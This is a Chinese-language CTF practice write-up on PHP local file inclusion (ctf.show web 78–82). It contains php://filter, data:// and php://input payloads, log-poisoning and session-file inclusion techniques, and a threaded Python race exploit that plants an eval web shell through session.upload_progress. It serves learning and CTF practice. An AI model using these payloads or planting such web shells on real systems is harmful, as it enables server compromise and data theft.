#前言
加油加油加油
今天比较开心的是对hackbar有了进一步的了解
web 78

特点：没有一点点过滤
想到到payload：
?file=php://filter/read=convert.base64-encode/resource=flag.php
?file=PHP://Filter/read=convert.base64-encode/resource=flag.php(如果有大小写限制，绕过大小写限制)
?file=data://text/plain,（大小写绕过可以同上）
?file=data://text/plain,（短标签绕过）
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==(base64编码绕过)
?file=php://input post:
web 79

特点：过滤了php，但是没有绕过大小写
?file=pHp://input post:
?file=data://text/plain, post:1=system(‘ls’);
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==()
web 80
特点：过滤了php，data但是没有过滤大小写

上面2的一些方法还是可以用的，这里介绍一下新的方法，这个可以绕过open_dir
?file=phP://input
一个类： DirectoryIterator
<?php
$dir = new DirectoryIterator("glob:///var/www/html/*");
foreach ($dir as $file){
echo($file->__tostring().' ');
}
exit(0);
?>还有一个是进行日志包含getshell
日志文件路径 ?file=/var/log/nginx/access.log
进行日志文件包含的主要步骤是，先将在user-agent哪里进行包含，然后在url那里写出日志的路径

在firebasky师傅那里学到了如果cat被过滤我们可以使用base64相当于cat，大佬们果然都很秀
web 81
同80，主要的一点就是加上过滤了 :
用日志包含也是可以的
跟着大佬就是说了一种新的方法


然后使用短标签也是可以的
web 82
这道题目跟上述题目不同的地方在于这道题目过滤了“.”,那就说明我们只能包含一个无后缀的文件，php里面我们能控制的唯一的那就只能是session，所以这道题目就是从这里看出我们要采用的方法是session.upload_progress
下面的内容摘自网络
在了解session包含文件漏洞及绕过姿势的时候，我们应该首先了解一下服务器上针对用户会话session的存贮和处理过程是什么。
php将session以文件的形势存储在服务器的某一个文件中，所以我们在进行包含的时候知道文件的默认存贮位置是必需的
默认路径：
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
知道路径之后，我们还需要知道服务器是怎么存放文件的，就是所我们需要知道服务器存放文件的文件名称，它的命名格式是什么，只有这样的话我们才能更好的包含
session的命名格式是sess_[phpsessid],phpsessid在发送的cookie中可以看到
好了，上述我们知道了php是怎么存储session文件的，现在我们需要了解一下php是怎么处理用户的session会话信息的。
php中针对用户会话的处理方式主要取决于服务器在php.ini或代码中对session.serialize_handler(捎带插一嘴，我记得这玩意我在做反序列化的时候也见过，但是至于该怎么应用到解题方向上，我暂时想不出来了，嘤嘤嘤，等把文件包含学完了在去复习一下反序列化)
我们需要知道php怎么处理session信息的，才能向session文件中插入我们想的getshell的恶意代码
php默认的会话处理方式就是session.serialize_handler=php

我们可以发现只有用户名的内容进行了序列化的存贮，但是变量名没有，username|s:4:’Qftm’
但是如果我们采用session.serialize_handler=php_serialize 就可以发现无论是变量名还是变量的内容都被进行了序列化的存储，这里就不配图了 a:1:{s:8:’username’;s:4:’Qftm’}
这两种存储方式不同，所以我们就要合理利用这两种方式
好了，上述我们已经了解了session的存储和处理机制，现在我们就要深入的了解一下session文件包含漏洞
简单的说，就是我们可以控制session文件里的一些内容，将这些内容变为我们的恶意代码，然后将这些内容包含到session文件里面去，就可以拿到服务器权限
现在我们通过一个简单的案例来说明一下
session.php
<?php
session_start();
$username=$_POST['username'];
$_SESSION["username"]=$username;index.php
<?php
$file=$_GET['file'];
include($file);从session.php中我们可以看到这个session是用户可以控制的，我们可以在这里插入一段恶意代码

可以看到有会话产生，我们也得到了phpsessid，所以我们可以进一步的构造

这是复制别人的图，我实验的时候没有成功应该是php.ini设置的有问题，果断时间试试在kali上下载一个phpstudy好好玩玩
嘿嘿，我整出来了


对上述实验做一个小结，我们看在session那里是可以传入session，而且不受限制，所以我们就是以传入我们写的恶意代码，php将我们传入的session进行处理存储在/var/lib/php/session里面，这是路径我们可以通过phpinfo（）进行查看。然后在index.php中存在include函数，当我们知道了session存贮的路径和文件名之后，我们就可以将我们的代码包含进去，然后通过post或者get方式进行getshell。
很简单是吧，如果这么简单的话那我们的信息将变得多么廉价，随便盗取就可以拿走，所以服务器在对用户信息的处理肯定是做了很多的限制
session base64encode
很多时候服务器上的session的信息会由base64编码后在进行存贮，我们在进行本地包含的时候要怎么进行绕过呢？
再看一个例子
session.php
<?php
session_start();
$username=$_POST['username'];
$_SESSION["username"]=base64_encode($username);
echo "user->$username";index.php
<?php
$file=$_GET['file'];
include($file);
然后当我们像上述例子中包含恶意代码的时候，我们会发现，我们的内容被base64编码了

那么我们想是不是我们对他进行解码在包含是不是就可以了？
?file=php://filter/read=convert.base64-decode/resource=/var/lib/php/session/sess_phpsessid


但是乱码了！！！
是因为serialize_handler=php的原因
上述的图中我们可以看到，只有我们传入的恶意代码的地方被进行了编码，也就是说我们的username则个变量名没有进行编码，但是我们全部将其进行了解码，以至于造成了乱码
那我们怎么才能然只有base64编码的地方进行解码，其他地方的保持不变？
答案是有的，现在让我们了解一下base64编码与解码的原理(ps:我记得base64编码与解码的原理，在当时实验室面试的时候有学长问过我，我不会，现在依然不会。。。。。。。感谢这篇文章的作者！！！)
base64编码解码
我们知道base64是使用了64个可打印字符（a-z,A-Z,0-9,+,/）将任意字符序列编码成ascii字符串以及‘=’用作后缀用途
base64索引表

base64编码的过程
将输入的字符串按字节进行切分，不足8比特的高位补零，然后取其二进制，然后将这些二进制串联起来，按照6比特进行切分，因为2^6=64，然后在base64索引表中查找其对印的值，然后将上述的结果串联起来就是我们要的base64编码后的结果
由于二进制的是按照8比特一组进行传输，然后按照6比特一组进行切分，那么我们进行的二进制的数据必需是24比特的倍数，因为24比特是（6和8的最小倍数），24比特就是3字节，如果原字节的数据长度不是3的倍数且剩下一个输入数据，则在编码的结果加一个=；若剩下两个输入数据，则加一个==

通过这张图我们可以更直观的连接编码的过程
解码过程就是编码的逆过程
base64解码的特点：base64编码的时候只包含64个可打印字符，而php在解码的时候如果遇到了不可打印的字符，就将其跳过，仅将合法的字符组成一个新的字符串进行解码（ps：这句话好像在哪里听到过，好像是一道ctf题目用到了这个特点，aaa想不起来在哪里做过这个的题目，果然做了好多题目依旧啥都不会。。。）

好了介绍了这么多我们要回归正题了
其实上述的我们传入的username之后进行编码之后，是长这样的 username|s:40:’base64编码的内容’，我们知道base64在解码的时候是将四字节转化为3字节，base64编码的内容是一定满足这个道理的，但是前面的内容如果不满足这个道理就会造成乱码
依照这个道理，如果session存贮信息中用户名编码后的长度为个位数，就是s:0-9，那么username|s:0-9:”，这部分长度是14，实际解码的部分是username0-9，实际长度是10，缺少了两个字节，我们需要将其补为：username0-9XX,如果是s:10-99,我们需要将其补为username10-99X,但是如果用户名编码是3位数，就正好满足我们的要求


嘤嘤嘤好想试一试，但是就是不知道哪一点出错了所以就是不行，等把作业补完了在kali上搞一搞
回顾一下这个实验：
首先这个比上一个实验加了base64编码，就造成我们想插入代码，但是被编码，造成我们不能成功的进行包含。但是我们想如果我们将其进行解码，就可以成功的进行包含，但是我们又遇到了一个问题，因为username|s:这部分是没有进行编码的，如果它们字节的长度不满足我们解码的规则我们就会产生乱码，所以此时我们需要在我们的编码的时候去将字符串的长度搞到三位数符合我们的规则即可
昨天晚上我想了一下，这玩意我在ctf中能干啥，感觉ctf中如果要用上这方面的知识，出题人肯定会整很多限制，就比如果说把‘.’给过滤了
如果它的php处理方式设置为serialize_handler=php_serialze?该怎么办呢？
其实我们知道php_serialize处理的信息是长这样的：a:1:{s:8:”username”;s:12:”PD8xMjM/Pg==”;}，除去不可建字符是a1s8usernames12是15个字节，所以我们需要将长度扩到三位数，就欧克了做法同上述的方法相同
no session_start
终于到了涉及到本题目的知识点了

我们来看一下题目，没有session_start，我们知道session_start通常作为会话的开始出现在网站的登录页面，但是如果一个占点又LFI漏洞但是却没有session_start，那我们该怎么包含用户信息呢？
很巧。系统本身有地方帮助我们产生session，并且有一部分是可控的
所以我们就要了解一下session在系统中的配置
默认情况下，session.use_strict_mode的值是0，此时用户是可以自己定义自己的session id的，就比如说如果我们设置cookie为lucky，那么php就会在文件中创建一个sess_lucky的文件,但是这个技巧的实现需要我们初始化就是session_start，但是现在我们讨论的就是站点没有初始化这个过程，那我们应该怎么办呢
我们来看一下php.ini中几个关键的配置


session.auto_start:顾名思义，如果开启这个选项，则会自动初始化session，但是不巧的是，默认情况下是关闭的
session.upload_progress.enabled=on,默认情况下就是开启的，php能够在每一个文件上传的时候检测上传进度
session.upload_progress.cleanup=on:默认开启，就是一旦文件上传结束，就立刻删除对应的session内容
session.upload_progress:最初是php为上传进度条设计的一个功能，在上传文件较大的情况下，php将以流的形势上传，并将进度信息放在session中，即使用户没有初始化session，php也会自动初始化session
session.upload_progress.name同名变量时（这部分数据用户可控），上传进度可以在session中获取。当php检测到这种post请求的时候，它会在session中添加一组数据，索引时session.upload_progress.prefix=”upload_progress_”，与session.upload-progress.name连起来的值
因为有clean存在，所以我们就要在clean之前把我们的文件包含进去，脚本
import io
import sys
import requests
import threading
sessid = 'Qftm'
def POST(session):
while True:
f = io.BytesIO(b'a' * 1024 * 50)
session.post(
'http://250307c3-cf87-4811-987f-20189fa2442c.chall.ctf.show/',
data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat *');fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"},
files={"file":('q.txt', f)},
cookies={'PHPSESSID':sessid}
)
def READ(session):
while True:
response = session.get(f'http://250307c3-cf87-4811-987f-20189fa2442c.chall.ctf.show/?file=/tmp/sess_{sessid}')
if 'flag' not in response.text:
print('[+++]retry')
else:
print(response.text)
sys.exit(0)
with requests.session() as session:
t1 = threading.Thread(target=POST, args=(session, ))
t1.daemon = True
t1.start()
READ(session)表单尝试失败。。。。。